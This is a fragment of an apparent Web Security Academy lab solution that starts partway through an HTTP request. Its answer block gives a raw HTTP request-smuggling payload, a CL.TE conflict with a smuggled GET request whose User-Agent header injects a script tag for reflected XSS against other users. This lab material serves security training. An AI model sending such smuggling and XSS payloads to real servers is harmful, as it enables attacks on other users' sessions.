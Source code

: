 Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

```
<input required type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36">
```

Answer:

```
POST / HTTP/1.1
Host: 0a08006c032db502c0df027c00590030.web-security-academy.net
Cookie: session=WWSaYlwePH4piCrMlfarZzBo64qRE6cW
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 784
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
Host: 0a08006c032db502c0df027c00590030.web-security-academy.net
Cookie: session=WWSaYlwePH4piCrMlfarZzBo64qRE6cW
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"><script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
